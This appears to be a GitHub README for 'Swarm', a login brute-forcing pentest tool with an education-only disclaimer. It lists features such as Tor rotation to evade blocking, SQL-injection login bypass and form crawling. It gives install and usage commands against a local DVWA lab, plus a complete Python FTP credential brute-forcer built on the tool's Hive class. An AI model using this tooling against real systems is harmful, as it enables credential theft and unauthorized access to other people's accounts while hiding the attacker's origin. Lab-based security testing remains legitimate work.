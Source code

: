 # DISCLAIMER
**Swarm is for education/research purposes only. The author takes NO responsibility and/or liability for how you choose to use any of the tools/source code/any files provided.
 The author and anyone affiliated with will not be liable for any losses and/or damages in connection with use of ANY files provided with Swarm.
 By using Swarm or any files included, you understand that you are AGREEING TO USE AT YOUR OWN RISK. Once again Swarm and ALL files included are for EDUCATION and/or RESEARCH purposes ONLY.
 Swarm is ONLY intended to be used on your own pentesting labs, or with explicit consent from the owner of the property being tested.** 


# About Swarm 
**Swarm is a Bruteforcing pentesting tool for bruteforcing html logins.**


**If you enjoy and are pleased with Swarm, take a moment and star this github. It only takes a second, so please take a second now and star at the top of the page.**
## Some Notable Features
* Multi-Threaded
* Randomized user agents
* Able to tunnel requests through tor, just use --tor option
* Able to by-pass logins via SQL Injections if option is specified
* Crawl the domain to discover login forms
* Easy to inherit from Hive to create different types of bruteforcing tools
* Able to generate a focused wordlist while crawling a domain
* Able to specify how many tries before TOR exit node switches

# Getting Started
To use, first clone the github repo, and then give swarm execute permissions
```shell
git clone https://github.com/szech696/swarm && cd swarm
chmod 755 swarm		
```	
## Installing Dependencies 
```shell
pip install bitarray
pip install -U requests[socks]
pip install pexpect
apt-get install tor
``` 
## Usage

### For all options
```shell
./swarm --help
``` 
### Using on Damn Vulnerable Web App
```shell
./swarm --url='http://localhost/dvwa/login.php' --user-file='usernames.txt' --pass-file='passwords.txt' --verbose --threads=1 
```
## Using Hive to Develop New Tools 
Hive makes developing new bruteforcing tools a breeze! The following is an example of a FTP bruteforcer
```python
from pythonlib.hive import Hive
from ftplib import FTP

# class: FTPHive
# description: Hive used to brute-force FTP Logins
class FTPHive(Hive):
        ftp = None
        def __init__(self):
                Hive.__init__(self)

        # function: attemptLogin        - Overriden
        # param: credential             - The credential to attempt a login with
        # return: Boolean               - True if Success | False if Failure
        # description: This function is responsible for attempting a login with the specified credential
        def attemptLogin(self, credential):
                success = False
                Hive.attemptLogin(self, credential)
                username = credential.username
                password = credential.password
                host = credential.host
                try:
                        self.ftp = FTP(host)
                        result = self.ftp.login(username,password)
                        # If result then this was a successful login
                        if result:
                                success = True
                        self.ftp.close()
                except:
                         pass
                return success

        # function: setup
        # description: Prepares this Hive for its attack, *NOTE* This must be called before start is called
        def setup(self):
                Hive.setup(self)

        def post_exploit(self,credential):
                # -------- Do Something ----------
                # Such as display a custom login message
                # Store credentials in a Database, etc.
                exit()

threadCount = 4
ftp_bruteforce = FTPHive()
ftp_bruteforce.target = 'x.x.x.x'                               # specify the target
ftp_bruteforce.usernameFile = 'usernames.txt'                   # the username file to use
ftp_bruteforce.passwordFile = 'passwords.txt'                   # the password file to use
ftp_bruteforce.verbose = True                                   # verbose output
ftp_bruteforce.setOnSuccessHandle(ftp_bruteforce.post_exploit)  # Normally you would just do this in setup, but for demonstration purposes
ftp_bruteforce.setup()                                          # setup must be called before start, and after username/usernameFile, passwordFile, and target have been set
ftp_bruteforce.start(threadCount)                               # starts the bruteforcing task

```

